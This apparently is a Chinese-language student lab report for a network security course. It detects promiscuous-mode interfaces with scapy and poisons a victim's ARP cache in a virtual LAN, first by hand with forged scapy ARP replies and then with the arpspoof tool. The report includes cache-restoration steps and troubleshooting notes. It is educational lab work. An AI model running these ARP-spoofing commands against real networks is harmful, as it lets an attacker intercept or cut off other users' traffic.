


# 第四章实验

## 网络拓扑

1. 搭建网络拓扑，网络中的结点基本信息如下：

- 攻击者主机
  - 08:00:27:e4:fc:c1 / eth0
  - 172.16.111.107 
  
  

- 受害者主机
  - 08：00：27：f7:3e:6a / eth0
  - 172.16.111.130
  
  

- 网关
  - 08:00:27:71:ac:ba / enp0s9 
  - 172.16.111.1
  
  

## 实验一：检测局域网中的异常中端

- 在受害者主机上检查网卡的`混杂模式`是否启用

  

- 在攻击者主机上开启scapy

  

- 在scapy的交互式终端输入以下代码回车执行
  ```bash
  pkt = promiscping("172.16.111.130")
  ```
  

- 回到受害者主机，检查`混杂模式`是否启用的输出结果没有PROMISC字符串
  
  

- 手动开启该网卡的`混杂模式`
  ```bash
  sudo ip link set eth0 promisc on
  ```

  

- 回到攻击者主机上的scapy交互式终端继续执行命令，观察两次命令的输出结果差异
  
  

- 在受害者主机上，手动关闭该网卡的`混杂模式`
  ```bash
  sudo ip link set eth0 promisc off
  ```

  

## 实验二：手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网的网关MAC地址

  

- 在攻击者主机上构造一个ARP请求，并查看构造好的ARP请求报文详情
  ```bash
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
  arpbroadcast.show()
  ```

  

- 发送这个ARP广播请求，网关MAC地址如下
  ```bash
  recved = srp(arpbroadcast,timeout=2)
  gw_mac = recved[0][0][1].hwsrc
  ```
  

- 伪造网关的ARP响应包，准备发送给受害者主机172.16.111.130
- ARP响应的目的MAC地址设置为攻击者主机的MAC地址
  ```bash
  arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
  ```
- 发送上述伪造的ARP响应数据包到受害者主机
  ```bash
  sendp(arpspoofed)
  ```
  

- 在受害者主机上查看ARP缓存，会发现网关的MAC地址已被`替换`为攻击者主机的MAC地址，毒害成功
  

- 恢复受害者主机的 ARP 缓存记录，伪装网关给受害者发送 ARP 响应。
  ```bash
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:71:ac:ba", pdst="172.16.111.130", hwdst="08:00:27:f7:3e:6a")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  

- 在受害者主机上尝试 ping 网关,静候几秒 ARP 缓存刷新成功，退出 ping,查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  

## 实验三：使用自动化工具完成ARP投毒劫持实验

- 安装arpspoof工具
  ```bash
  sudo apt-get install -y dsniff ssldump –fix-missing
  ```
  
- 用arpspoof工具完成ARP投毒劫持(攻击者伪造成网关`172.16.111.1`，挟持受害者`172.16.111.130`)
  ```bash
  sudo arpspoof -i eth0 -t 172.16.111.130 172.16.111.1
  ```
  

- 终止投毒进程，发现受害者主机ARP缓存自动恢复
  

## 实验中遇到的问题

1. 实验一关闭/开启混杂模式一直失败，切换至root权限后成功
2. 实验二执行下面指令的时候一直报错`Ether not defined`
```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
```
安装python3-pip后成功，且未遇到依赖冲突
3. 按照老师给的指令伪造网关的ARP响应包发送给受害者主机后，发现发包失败。
```bash
arpspoofed=ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
```
对比上一步发的ARP广播包，发现老师给的指令没有加Ether帧头，自行加上后成功
```bash
arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
```

## 参考资料

- [网络安全第四章实验指南](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [Arp断网攻击工具-Arpspoof工具安装使用指南](https://baijiahao.baidu.com/s?id=1693283014674555176&wfr=spider&for=pc)
